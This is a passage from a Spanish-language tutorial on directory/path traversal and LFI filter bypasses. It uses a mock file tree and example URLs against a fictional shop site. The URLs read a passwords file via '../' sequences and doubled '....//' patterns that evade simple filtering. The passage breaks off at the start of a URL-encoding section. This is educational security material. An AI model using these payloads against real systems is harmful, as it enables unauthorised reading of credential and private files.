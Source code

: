 ```bash
├── customers_emails.txt
├── names.txt
└── company_description.txt
```

Imagina que estas visualizando el archivo `5.jpg` , puedes usar los `..` para subir al directorio padre, y visualizar el archivo `bank_account_passwords.txt` así:

```http
https://myshop.com/image?filename=../../bank_account_passwords.txt
```

```bash
├── Web/
│   ├── Content/
│   │   ├── bank_account_passwords.txt <====
│   │   ├── company_passwords.txt
│   │   ├── Bank_Transfers/
│   │   │   ├── profit.xlsx
│   │   │   ├── payments.xlsx
│   │   │   └── back-up_screenshot.jpg
│   │   └── Assests
│   │       └── Product_Images/
│   │           ├── 5.jpg
│   │           ├── 6.jpg
│   │           └── 7.jpg
│   └── warning.log
├── customers_emails.txt
├── names.txt
└── company_description.txt
```

Pues este es el concepto del Directory/Path Traversal

## LFI Bypass

### Eliminación de patrones

En ciertas ocasiones, los desarrolladores, aplican un reemplazo en el que eliminan `../` del input del nombre/ruta del archivo. Una medida de evitar estas restricciones es ponerlo doble:

```http
https://myshop.com/image?filename=....//....//bank_account_passwords.txt
http://myshop.com/image?filename=....\/....\/....\/bank_account_passwords.txt
```

De esta manera, la medida elimina solo `../` y por lo tanto el input final se queda de esta manera:

```http
https://myshop.com/image?filename=../../bank_account_passwords.txt
```

### URL-Encode

En algunos casos, los desarrolladores, aplican un parámetro especifico en las cabeceras de la solicitud en el que este elimina los path traversal, pero este parámetro no tiene en cuenta la codificación/decodificación URL, por lo que podemos usar esto en nuestro beneficio:
